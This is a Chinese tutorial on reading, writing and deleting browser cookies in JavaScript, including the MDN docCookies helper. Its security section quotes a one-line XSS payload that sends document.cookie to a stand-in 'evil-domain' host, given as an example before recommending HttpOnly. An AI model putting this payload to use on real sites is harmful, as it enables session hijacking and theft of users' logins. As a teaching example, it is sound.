 ```yaml
---
title: 如何操作cookie？
layout: post
tags: javascript cookie 数据缓存
category: javascript
---
```


* content
{:toc}

# 前言
> Cookie（复数形态Cookies），中文名称为“小型文本文件”或“小甜饼”，指某些网站为了辨别用户身份而储存在用户本地终端（Client Side）上的数据（通常经过加密）。定义于RFC2109。是网景公司的前雇员卢·蒙特利在1993年3月的发明。Cookie总是保存在客户端中，按在客户端中的存储位置，可分为内存Cookie和硬盘Cookie。内存Cookie由浏览器维护，保存在内存中，浏览器关闭后就消失了，其存在时间是短暂的。硬盘Cookie保存在硬盘里，有一个过期时间，除非用户手工清理或到了过期时间，硬盘Cookie不会被删除，其存在时间是长期的。所以，按存在时间，可分为非持久Cookie和持久Cookie。

## 用途
- 因为HTTP协议是无状态的，即服务器不知道用户上一次做了什么，这严重阻碍了交互式Web应用程序的实现。在典型的网上购物场景中，用户浏览了几个页面，买了一盒饼干和两饮料。最后结帐时，由于HTTP的无状态性，不通过额外的手段，服务器并不知道用户到底买了什么。 所以Cookie就是用来绕开HTTP的无状态性的“额外手段”之一。服务器可以设置或读取Cookies中包含信息，借此维护用户跟服务器会话中的状态。
- 在刚才的购物场景中，当用户选购了第一项商品，服务器在向用户发送网页的同时，还发送了一段Cookie，记录着那项商品的信息。当用户访问另一个页面，浏览器会把Cookie发送给服务器，于是服务器知道他之前选购了什么。用户继续选购饮料，服务器就在原来那段Cookie里追加新的商品信息。结帐时，服务器读取发送来的Cookie就行了。
- Cookie另一个典型的应用是当登录一个网站时，网站往往会请求用户输入用户名和密码，并且用户可以勾选“下次自动登录”。如果勾选了，那么下次访问同一网站时，用户会发现没输入用户名和密码就已经登录了。这正是因为前一次登录时，服务器发送了包含登录凭据（用户名加密码的某种加密形式）的Cookie到用户的硬盘上。第二次登录时，（如果该Cookie尚未到期）浏览器会发送该Cookie，服务器验证凭据，于是不必输入用户名和密码就让用户登录了。

## Cookie的缺陷
1. Cookie会被附加在每个HTTP请求中，所以无形中增加了流量。
2. 由于在HTTP请求中的Cookie是明文传递的，所以安全性成问题。（除非用HTTPS）
3. Cookie的大小限制在4KB左右。对于复杂的存储需求来说是不够用的。

# 语法
```javascript
var allCookies = document.cookie; // 读取所有cookie，获取到的allCookies是一个字符串，包含所有以分号分隔的键值对;
document.cookie = updatedCookie; // 写一个新的cookie，updatedCookie是一个键值对的字符串，只能使用这个方法一次设置或更新一个cookie;
```

## 可选的值：
- ;path=path  =>  如果没有定义，默认为当前文档位置的路径;
- ;domain=domain  => 如果没有如果没有定义，默认为当前文档位置的路径的域名部分。
- ;max-age=max-age-in-seconds (例如一年为60*60*24*365)
- ;expires=date-in-GMTString-format 如果没有定义，cookie会在对话结束时过期，这个值的格式参考Date.toUTCString() 
- ;secure (cookie只通过https协议传输) 
> cookie的值字符串可以用encodeURIComponent()来保证它不包含任何逗号、分号或空格

# 一个简单的cookie框架
```javascript
/*\
|*|
|*|  :: cookies.js ::
|*|
|*|  A complete cookies reader/writer framework with full unicode support.
|*|
|*|  https://developer.mozilla.org/en-US/docs/DOM/document.cookie
|*|
|*|  This framework is released under the GNU Public License, version 3 or later.
|*|  http://www.gnu.org/licenses/gpl-3.0-standalone.html
|*|
|*|  Syntaxes:
|*|
|*|  * docCookies.setItem(name, value[, end[, path[, domain[, secure]]]])
|*|  * docCookies.getItem(name)
|*|  * docCookies.removeItem(name[, path], domain)
|*|  * docCookies.hasItem(name)
|*|  * docCookies.keys()
|*|
\*/

var docCookies = {
  getItem: function (sKey) {
    return decodeURIComponent(document.cookie.replace(new RegExp("(?:(?:^|.*;)\\s*" + encodeURIComponent(sKey).replace(/[\-\.\+\*]/g, "\\$&") + "\\s*\\=\\s*([^;]*).*$)|^.*$"), "$1")) || null;
  },
  setItem: function (sKey, sValue, vEnd, sPath, sDomain, bSecure) {
    if (!sKey || /^(?:expires|max\-age|path|domain|secure)$/i.test(sKey)) { return false; }
    var sExpires = "";
    if (vEnd) {
      switch (vEnd.constructor) {
        case Number:
          sExpires = vEnd === Infinity ? "; expires=Fri, 31 Dec 9999 23:59:59 GMT" : "; max-age=" + vEnd;
          break;
        case String:
          sExpires = "; expires=" + vEnd;
          break;
        case Date:
          sExpires = "; expires=" + vEnd.toUTCString();
          break;
      }
    }
    document.cookie = encodeURIComponent(sKey) + "=" + encodeURIComponent(sValue) + sExpires + (sDomain ? "; domain=" + sDomain : "") + (sPath ? "; path=" + sPath : "") + (bSecure ? "; secure" : "");
    return true;
  },
  removeItem: function (sKey, sPath, sDomain) {
    if (!sKey || !this.hasItem(sKey)) { return false; }
    document.cookie = encodeURIComponent(sKey) + "=; expires=Thu, 01 Jan 1970 00:00:00 GMT" + ( sDomain ? "; domain=" + sDomain : "") + ( sPath ? "; path=" + sPath : "");
    return true;
  },
  hasItem: function (sKey) {
    return (new RegExp("(?:^|;\\s*)" + encodeURIComponent(sKey).replace(/[\-\.\+\*]/g, "\\$&") + "\\s*\\=")).test(document.cookie);
  },
  keys: /* optional method: you can safely remove it! */ function () {
    var aKeys = document.cookie.replace(/((?:^|\s*;)[^\=]+)(?=;|$)|^\s*|\s*(?:\=[^;]*)?(?:\1|$)/g, "").split(/\s*(?:\=[^;]*)?;\s*/);
    for (var nIdx = 0; nIdx < aKeys.length; nIdx++) { aKeys[nIdx] = decodeURIComponent(aKeys[nIdx]); }
    return aKeys;
  }
};
```
## 语法

```javascript
docCookies.setItem(name, value[, end[, path[, domain[, secure]]]]) //设置cookie
docCookies.getItem(name) //获取cookie
docCookies.removeItem(name[, path],domain) //删除cookie
docCookies.hasItem(name) //检测cookie
docCookies.keys() //得到所有cookie列表
```

# 安全
- 路径限制并不能阻止从其他路径访问cookie. 使用简单的DOM即可轻易地绕过限制(比如创建一个指向限制路径的, 隐藏的iframe, 然后访问其 contentDocument.cookie 属性). 保护cookie不被非法访问的唯一方法是将它放在另一个域名/子域名之下, 利用同源策略保护其不被读取.

- Web应用程序通常使用cookies来标识用户身份及他们的登录会话. 因此通过窃听这些cookie, 就可以劫持已登录用户的会话. 窃听的cookie的常见方法包括社会工程和XSS攻击：

```(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;```
- HttpOnly 属性可以阻止通过javascript访问cookie, 从而一定程度上遏制这类攻击. 参见 Cookies and Security.
